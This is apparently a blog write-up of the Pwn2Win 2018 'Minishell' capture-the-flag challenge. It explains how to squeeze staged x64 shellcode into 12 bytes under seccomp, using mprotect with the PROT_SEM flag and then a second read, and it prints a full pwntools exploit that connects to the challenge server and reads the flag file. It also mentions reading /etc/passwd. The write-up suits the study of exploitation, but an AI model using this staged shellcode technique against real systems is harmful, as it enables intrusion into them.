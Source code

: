 ```yaml
---
layout: post
category: Pwn
title: Pwn2Win 2018 Minishell
tags: 
    - kowu
---
```


We are allowed to directly execute x64 shellcode in a r/x mmapped region, however only up to a Size of 12 Bytes. And there was seccomp enabled, so we only had `mprotect`, `read`, `write`, `open` and a few other syscalls available.
We cannot read the flag with only 12 Bytes available, so we must somehow reread additional shellcode. Therefore we must get our mempage writable again.
And afterwards we need to read some shellcode in there, overwriting our currently executed shellcode.

## Step1: Making the mempage writable
As the last function call before jumping into our shellcode was mprotect, most of the registers luckily were already set correctly.
As we want to call mprotect by syscall, our shellcode therefore only needs to set rax = 10 (for mprotect) and rdx = 7 (for r/w/x rights).
```nasm
; already set correctly : rdi = our mempage base addr, rsi = mempage size
mov al, 10
mov dl, 7
syscall
```
This will result in 6 Bytes of shellcode. Also, after successfull execution, rax will be set to zero, the syscall number of read!

## Step2: Reading 
Now we need to read from stdin, rax is already set to 0 (the id of read).
For the parameters we need to get rdi = 0 (for stdin), rsi = rdi (rdi contains our mempage addr), rdx = the amount we want to read.
My first try was something like:
```nasm
mov rsi, rdi
mov rdi, rax
mov dl, 0xff
syscall
```
Which will result in 10 Bytes of additional shellcode, way too much, we need to get it into 6 Bytes.
Therefore we can do some optimisations. For example the `mov rsi, rdi` operation (3 Bytes in size) can as well be expressed as `push rdi; pop rsi` (2 Bytes in size).
By completely removing the assignment of the rdx register, we will get a 6 Byte read shellcoode.
```nasm
push rdi
pop rsi
push rax
pop rdi
syscall
```
We now can read into our own mempage. However, rdx is still 7 from the last call, so this doesn't help us at all, we will return right into nothing after the read syscall. We need to read more.

## Step3: Mmap protection flags
As we want to get rdx > 7, we could just try to set it to some arbitrary value right before the mprotect syscall. But then mprotect will fail with EINVAL.
So let's check wich flags we have available to use the syscall correctly and get rdx > 7.
```c
/* mman-common.h */
#define PROT_READ	0x1		/* page can be read */
#define PROT_WRITE	0x2		/* page can be written */
#define PROT_EXEC	0x4		/* page can be executed */
#define PROT_SEM	0x8		/* page may be used for atomic ops */
#define PROT_NONE	0x0		/* page can not be accessed */
```
A PROT_SEM flag. Interesting. So setting rdx = 15 would work, we could read 3 more Bytes and overwrite our whole current shellcode + 3.
Those additional 3 Bytes are sufficient to do a `jmp rsi`. from there on it is a piece of cake, with that space for shellcode available, we can read an arbitrary amount of shellcode into memory.

Full exploit code:
```python
from pwn import *

context.clear(arch='amd64')

stage1 = """
    mov al, 10
    mov dl, 15
    syscall
    push rdi
    pop rsi
    push rax
    pop rdi
    syscall
    """
stage1 = asm(stage1)
assert len(stage1) <= 12

stage2 = """
    mov dx, 0x1000
    xor rax, rax
    syscall
"""
stage2 = asm(stage2)
assert len(stage2) <= 12
stage2 = stage2.ljust(12, '\x90') + asm('jmp rsi')
assert len(stage2) <= 15

stage3 = "nop\n" * 15
stage3 += pwnlib.shellcraft.open('/home/minishell/flag.txt')
stage3 += pwnlib.shellcraft.read(fd='rax', count=0x1000)
stage3 += pwnlib.shellcraft.strlen('rsp')
stage3 += pwnlib.shellcraft.write(1, 'rsp', 'rcx')
stage3 = asm(stage3)

r = remote('200.136.252.34', 4545)
if __name__ == '__main__':
    r.recvuntil('? ')
    r.send(stage1)
    r.recvuntil('!\n')
    r.send(stage2)
    r.send(stage3)
    r.interactive()
    # CTF-BR{s0000_t1ght_f0r_my_B1G_sh3ll0dE_}
```
The PATH wasn't set, so just opening `flag.txt` did not work. Had to read `/etc/passwd` to find out the home path.
